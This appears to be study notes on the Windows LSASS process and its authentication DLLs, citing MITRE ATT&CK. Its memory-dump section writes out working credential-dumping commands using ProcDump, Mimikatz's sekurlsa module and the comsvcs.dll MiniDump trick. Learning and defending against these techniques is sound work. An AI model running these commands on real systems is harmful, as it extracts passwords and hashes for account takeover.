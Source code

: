 ### 1.0 Local Security Authority Subsystem Service
LSASS is a process rather than a file. As we can see from `Task Manager`, it runs as SYSTEM.  
![](https://i.imgur.com/KLds609.png)

According to Microsoft's website: 

> The LSA security subsystem provides services to both the kernel mode and user mode for validating access to objects, checking user privileges, and generating audit messages.

![](https://i.imgur.com/E7SRmLB.png)

https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-2000-server/cc961760(v=technet.10)?redirectedfrom=MSDN

I noticed LSA and LSASS from the above website, but I simply had no clue what they were. A quick description of LSA and LSASS was found on StackExchange:

> There is "LSA" the concept, and "lsass.exe," a process that implements many of the functions of LSA.

https://superuser.com/questions/1370871/what-is-the-relation-between-lsa-and-lsass-in-windows

---

### Authentication-Related Files

| **File Name**    | **Description**                                                                                                                                        |
| ---------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------ |
| **Netlogon.dll** | Manages the computer's secure channel to a domain controller, passing credentials securely and handling replication for Windows NT domain controllers. |
| **Msv1_0.dll**   | Implements the NTLM authentication protocol for clients that don’t use Kerberos.                                                                       |
| **Schannel.dll** | Provides Secure Sockets Layer (SSL) authentication over encrypted channels.                                                                            |
| **Kerberos.dll** | Implements the Kerberos v5 authentication protocol.                                                                                                    |
| **Kdcsvc.dll**   | Kerberos Key Distribution Center (KDC) service, responsible for issuing ticket-granting tickets.                                                       |
| **Lsasrv.dll**   | The Local Security Authority (LSA) server service, which enforces security policies.                                                                   |
| **Samsrv.dll**   | Manages the Security Accounts Manager (SAM), storing local accounts and enforcing policies.                                                            |
| **Ntdsa.dll**    | The directory service module supporting Windows replication and LDAP, managing data partitions.                                                        |
| **Secur32.dll**  | A multiple authentication provider that integrates various authentication components.                                                                  |

---

### 1.1 LSASS Memory Dump

According to [MITRE](https://attack.mitre.org/techniques/T1003/001/), credentials in the LSASS process memory can be dumped in many ways.

#### 1.1.1 ProcDump
```bash
procdump -ma lsass.exe lsass_dump
```

#### 1.1.2 Mimikatz
```bash
sekurlsa::Minidump lsassdump.dmp
sekurlsa::logonPasswords
```

#### 1.1.3 Built-in Windows Tools - comsvcs.dll
```bash
rundll32.exe C:\Windows\System32\comsvcs.dll MiniDump PID lsass.dmp full
```

#### 1.1.4 Task Manager
![](https://i.imgur.com/EnEyDrY.png)

#### 1.1.5 Process Explorer
![](https://i.imgur.com/5felLNA.png)

---
